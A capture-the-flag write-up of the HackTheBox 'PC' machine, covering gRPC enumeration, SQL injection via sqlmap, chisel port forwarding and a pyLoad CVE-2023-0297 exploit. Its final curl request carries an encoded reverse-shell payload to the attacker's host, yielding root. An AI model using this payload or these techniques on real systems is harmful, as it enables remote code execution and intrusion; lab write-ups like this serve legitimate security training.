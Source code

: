 # HackTheBox - PC

## NMAP

```bash
Nmap scan report for 10.129.19.240                     
Host is up (0.21s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:         
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown          
```

## PORT 50051

Connecting to this port through `telnet` or `netcat`, doesn't yield anything but `???`

<img src="https://i.imgur.com/BMLSNEy.png"/>

So resarching what runs on port 50051 shows that, gRPC uses this port which is an open source remote procedure call framework by google

<img src="https://i.imgur.com/o3nfU5j.png"/>

We can analyze the traffic through `wireshark` by sniffing packets on our interface (tun0) and changing protocol to HTTP/2

<img src="https://i.imgur.com/JBQgkal.png"/>

gRPC can be enumerated through `grpcurl`

```bash
grpcurl -plaintext 10.129.19.240:50051 list
```

<img src="https://i.imgur.com/AdXPsBb.png"/>

This listed two services, let's try listing the methods in `SimpleApp`

<img src="https://i.imgur.com/GSXeb8S.png"/>

SimpleApp service has three methods which can be checked with `describe` arguement

<img src="https://i.imgur.com/EEpsahj.png"/>

We can register and login with an account which in return provides an id 

```bash
grpcurl -plaintext -d '{"username":"arz101" , "password":"12345"}' 10.129.19.240:50051 SimpleApp/RegisterUser 

grpcurl -plaintext -d '{"username":"arz101" , "password":"12345"}' 10.129.19.240:50051 SimpleApp/LoginUser
```


<img src="https://i.imgur.com/GDvCLBK.png"/>

Now using `getInfo` will ask for a token

<img src="https://i.imgur.com/ROsqUow.png"/>

## Foothold

If we go back to login method, we do use a token if we enable verbosity with `-vv`

<img src="https://i.imgur.com/HiQulEp.png"/>

```bash
grpcurl -vv -plaintext -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYXJ6MTAxIiwiZXhwIjoxNjg0NjkzODY1fQ.CMWWeEN92nUfwMh8_AUGBPjHsIC7oIRTVDBZEy2qDS8" 10.129.19.240:50051 SimpleApp/getInfo
```

<img src="https://i.imgur.com/jmZ4eNA.png"/>
This gives us an error `Unexpected <class 'TypeError'>: bad argument type for built-in operation` due to we haven't specified the data, if we use `describe` to see what parameters the method accepts

<img src="https://i.imgur.com/LypYf33.png"/>

It needs the ID which we get after logging in

```bash
grpcurl -vv -plaintext -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYXJ6MTAxIiwiZXhwIjoxNjg0NjkzODY1fQ.CMWWeEN92nUfwMh8_AUGBPjHsIC7oIRTVDBZEy2qDS8" -d '{"id": "842"}' 10.129.19.240:50051 SimpleApp/getInfo

```

<img src="https://i.imgur.com/k8qDJqW.png"/>

But tampering/playing around with this was a little difficult, so I tried postman and grpcui which gives you GUI with which you can work with gRPC service and also intercept the requests easily

<img src="https://i.imgur.com/eksI8QX.png"/>

<img src="https://i.imgur.com/XAwU5kQ.png"/>

<img src="https://i.imgur.com/5ypgqSi.png"/>

<img src="https://i.imgur.com/jjytNag.png"/>


After identifiying that it was using some filters for sqli, we can try running `sqlmap` which found injection on `id` parameter

<img src="https://i.imgur.com/ZyxW1y5.png"/>

<img src="https://i.imgur.com/Tc2hAjK.png"/>

With these credentials, we can login as `sau` user

<img src="https://i.imgur.com/2R02n7N.png"/>

Having enumerated the SUIDs, the files which are owned sau none of them yield any path to escalation, checking the local ports, there was port 8000 open which redirects to a login page

<img src="https://i.imgur.com/bJep6gx.png"/>

<img src="https://i.imgur.com/oh5YJff.png"/>

Port forwarding with `chisel`

```bash
chisel server -p 3333 --reverse

chisel client 10.10.16.19:3333 R:localhost:8000
```

<img src="https://i.imgur.com/73nLYMT.png"/>

Now accessing the port on our browser we'll get a login page for pyLoad which is a download manager for python


<img src="https://i.imgur.com/GgFEXZF.png"/>

Trying the default creds like `admin:admin` and `pyload:pyload` didn't work, so searching for CVEs there was a pre-auth rce vulnerability (CVE-2023-0297)

<img src="https://i.imgur.com/SdNEqLy.png"/>

Using the poc we'll get a shell as the root user

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E19%2F2222%200%3E%261%27\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'
```

<img src="https://i.imgur.com/fOYBuSy.png"/>

## References

- https://grpc.io/blog/wireshark/
- https://github.com/fullstorydev/grpcurl
- https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9
- https://security.snyk.io/vuln/SNYK-PYTHON-PYLOADNG-3230895
- https://security.snyk.io/vuln/SNYK-PYTHON-PYLOADNG-3230895
